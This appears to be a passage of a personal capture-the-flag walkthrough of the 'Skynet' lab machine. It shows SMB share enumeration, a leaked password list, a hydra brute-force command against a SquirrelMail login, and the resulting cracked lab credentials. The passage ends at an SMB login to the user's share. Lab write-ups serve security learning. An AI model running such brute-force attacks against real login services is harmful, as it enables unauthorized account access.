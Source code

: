 -------------------------------------------------------------------------------------------------
upon reading the downloaded attention.txt file I felt thrown off and not much closer to getting any passwords or access so I must do more digging
-------------------------------------------------------------------------------------------------
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 00:42:16 2019
  ..                                  D        0  Thu Nov 26 11:04:00 2020
  log2.txt                            N        0  Wed Sep 18 00:42:13 2019
  log1.txt                            N      471  Wed Sep 18 00:41:59 2019
  log3.txt                            N        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5831492 blocks available
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
smb: \logs\> get log2.txt
getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \logs\> get log3.txt
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \logs\> 
-------------------------------------------------------------------------------------------------
log1.txt appears to be a list of cleartext passwords that can maybe used in a wordlist attack. I have a couple different users enumerated. 
-------------------------------------------------------------------------------------------------
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                                            
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
-------------------------------------------------------------------------------------------------
so those can be potential usernames could be used with the password list. As opposed to hydra, which I may need to try depending on how this goes. I went with burpsuite intruder loading in log1.txt as the wordlist and milesdyson as the username, currently I do not believe I have found a correct combination of those two (i found the password a minute later aha)

hydra would also be an alternative means of finding the password here. Important note that I had to change the page from login.php to redirect.php
┌──(kali㉿kali)-[~]
└─$ hydra -l milesdyson -P log1.txt 10.10.188.99 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user" -V -I

-------------------------------------------------------------------------------------------------
Okay that found dyson's password: cyborg007haloterminator as that one got a 302 response
-------------------------------------------------------------------------------------------------
upon logging into his email we see the following email:
-------------------------------------------------------------------------------------------------
![[Pasted image 20250422162702.png]]
-------------------------------------------------------------------------------------------------
SMB Password: )s{A&2Z=F^n_E.B`
-------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ smbclient  \\\\10.10.188.99\\milesdyson -U milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> 
-------------------------------------------------------------------------------------------------
when prompted for the password I used the one found in 10.10.188.99/squirrelmail
-------------------------------------------------------------------------------------------------
